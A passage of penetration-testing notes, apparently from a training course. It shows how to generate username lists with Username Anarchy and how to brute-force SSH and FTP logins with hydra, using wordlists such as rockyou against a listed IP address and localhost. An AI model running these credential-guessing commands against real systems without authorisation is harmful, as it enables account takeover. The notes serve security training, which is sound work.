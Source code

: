 There are several methods to create the list of potential usernames, the most basic of which is simply writing it manually.

One such tool we can use is [Username](https://github.com/urbanadventurer/username-anarchy) Anarchy, which we can clone from GitHub, as follows:

    git clone https://github.com/urbanadventurer/username-anarchy.git

<span class="underline">Usage</span>

    ./username-anarchy name surname > results.txt


<a id="org1a8f85e"></a>

## Service Authentication Brute Forcing


<a id="org07f4a2c"></a>

### SSH Attack

    hydra -L users.txt -P passwords.txt -u -f ssh://178.35.49.134:22 -t 4


<a id="org02bd84c"></a>

### FTP Attack

    hydra -l user -P rockyou-10.txt ftp://127.0.0.1

